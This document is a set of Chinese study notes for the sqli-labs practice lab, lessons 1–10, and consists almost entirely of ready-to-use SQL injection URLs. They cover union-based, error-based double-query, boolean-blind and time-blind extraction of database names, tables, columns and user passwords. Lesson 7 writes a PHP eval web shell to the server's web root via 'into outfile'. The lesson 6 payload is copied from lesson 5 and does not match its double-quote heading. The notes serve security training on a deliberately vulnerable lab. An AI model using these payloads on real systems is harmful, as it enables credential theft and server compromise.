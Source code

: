 
# sqli-labs学习笔记
## less 1   GET - Error based - Single quotes - String(基于错误的GET单引号字符型注入)

- 获取表中的字段数
> http://192.168.1.103/sqli/Less-1/index.php?id=1' order by 4 %23

- 获取到SQL的用户，数据库，版本
> http://192.168.1.103/sqli/Less-1/index.php?id=-1' union select 2,3,concat_ws(char(32,58,32),user(),database(),version()) %23

- 获取数据表
> http://192.168.1.103/sqli/Less-1/index.php?id=-1' union select 2,3,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1 %23

- 获取字段
> http://192.168.1.103/sqli/Less-1/index.php?id=-1' union select 2,3,column_name from information_schema.columns where  table_schema=0x7365637572697479 and table_name=0x7573657273 limit 0,1 %23

- 获取帐号密码
> http://192.168.1.103/sqli/Less-1/index.php?id=-1' union select 2,3,concat_ws(char(32,58,32),id,username,password) from users limit 0,1 %23

*获取到的数据库名和表名，都转成16进制的进行查询*

## less 2 GET - Error based - Intiger based (基于错误的GET整型注入)
**这里跟上面几乎一样，只是$id没用单引号引着，(因为sql语句对于数字型的数据可以不加单引号),不写单引号的注入就更简单了**

- 获取帐号密码
> http://192.168.1.103/sqli/Less-2/index.php?id=-1 union select 2,3,concat_ws(char(32,58,32),id,username,password) from users limit 0,1 %23

## less 3 GET - Error based - Single quotes with twist string (基于错误的GET单引号变形字符型注入)
**先闭单引号，在进行注入**

- 获取帐号密码
> http://192.168.1.103/sqli/Less-3/index.php?id=-1') union select 2,3,concat_ws(char(32,58,32),id,username,password) from users limit 0,1 %23

## less 4 GET - Error based - Double Quotes - String （基于错误的GET双引号字符型注入）
**先闭双引号，在进行注入**

- 获取帐号密码
> http://192.168.1.103/sqli/Less-4/index.php?id=-1") union select 2,3,concat_ws(char(32,58,32),id,username,password) from users limit 0,1 %23

## less 5 GET - Double Injection - Single Quotes - String (双注入GET单引号字符型注入)
**当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。因为是随机的，有时候得多试几次**

> http://192.168.1.103/sqli/Less-5/index.php?id=1' union select count(*),1,concat((select user()), floor(rand()*2)) as a from information_schema.tables  group by a %23  

- 获取数据表
> http://192.168.1.103/sqli/Less-5/index.php?id=1' union select count(*),1,concat((select table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1), floor(rand()*2)) as a from information_schema.tables  group by a %23

- 获取字段
> http://192.168.1.103/sqli/Less-5/index.php?id=1' union select count(*),1,concat((select column_name from information_schema.columns where  table_schema=0x7365637572697479 and table_name=0x7573657273 limit 0,1), floor(rand()*2)) as a from information_schema.tables  group by a %23

- 获取帐号密码
> http://192.168.1.103/sqli/Less-5/index.php?id=1' union select count(*),1,concat((select concat_ws(char(32,58,32),id,username,password) from users limit 0,1), floor(rand()*2)) as a from information_schema.tables  group by a %23

## less 6 GET - Double Injection - Double Quotes - String (双注入GET双引号字符型注入)

- 获取帐号密码
> http://192.168.1.103/sqli/Less-5/index.php?id=1' union select count(*),1,concat((select concat_ws(char(32,58,32),id,username,password) from users limit 0,1), floor(rand()*2)) as a from information_schema.tables  group by a %23

## less 7 GET - Dump into outfile - String （导出文件GET字符型注入）
> http://192.168.1.103/sqli/Less-7/index.php?id=1')) union select 1,'2','<?php @eval($_POST["giantbranch"]);?>' into outfile 'D:\\PHPTutorial\\WWW\\muma.php' %23

## less 8 GET - Blind - Boolian Based - Single Quotes (布尔型单引号GET盲注)

- 一个一个的猜数据库字符,根据 ascii 码猜
```
> http://192.168.1.102/sqli/Less-8/index.php?id=1' and ascii(substr((select database()),6,1))=105 %23
或者
>http://192.168.1.102/sqli/Less-8/index.php?id=1'  and if(ascii(substr((select database()),1,1))>100, 1, 0) %23  
```

- 一个一个的猜数据表字符,根据 ascii 码猜
> http://192.168.1.102/sqli/Less-8/index.php?id=1'  and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),1,1))>50, 1, 0) %23  

- 一个一个的猜数据字段字符,根据 ascii 码猜
> http://192.168.1.102/sqli/Less-8/index.php?id=1'  and if(ascii(substr((select column_name from information_schema.columns where  table_schema=0x7365637572697479 and table_name=0x7573657273 limit 0,1),1,1))=106, 1, 0) %23  

- dump表中的数据
> http://192.168.1.102/sqli/Less-8/index.php?id=1'and if(ascii(substr((select username  from users limit 0,1),1,1))=68,1,0 ) %23 

## less 9 GET - Blind - Time based. -  Single Quotes  (基于时间的GET单引号盲注)

- 一个一个的猜数据库字符,根据 ascii 码猜
> http://192.168.1.102/sqli/Less-9/index.php?id=1' and sleep(if(ascii(substr((select database()),1,1))=115,0,5)) %23

- 一个一个的猜数据表字符,根据 ascii 码猜
> http://192.168.1.102/sqli/Less-9/index.php?id=1' and sleep(if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),1,1))=114,0,5)) %23

- 一个一个的猜数据字段字符,根据 ascii 码猜
> http://192.168.1.102/sqli/Less-9/index.php?id=1' and sleep(if(ascii(substr((select column_name from information_schema.columns where  table_schema=0x7365637572697479 and table_name=0x7573657273 limit 0,1),1,1))=105,0,5)) %23

- dump表中的数据
> http://192.168.1.102/sqli/Less-9/index.php?id=1' and sleep(if(ascii(substr((select username  from users limit 0,1),1,1))=68,0,5)) %23

## less 10 GET - Blind - Time based - double quotes (基于时间的双引号盲注)

- dump表中的数据
> http://192.168.1.102/sqli/Less-10/index.php?id=1" and sleep(if(ascii(substr((select username  from users limit 0,1),1,1))=68,0,5)) %23


## less11 POST - Error Based - Single quotes- String (基于错误的POST型单引号字符型注入)

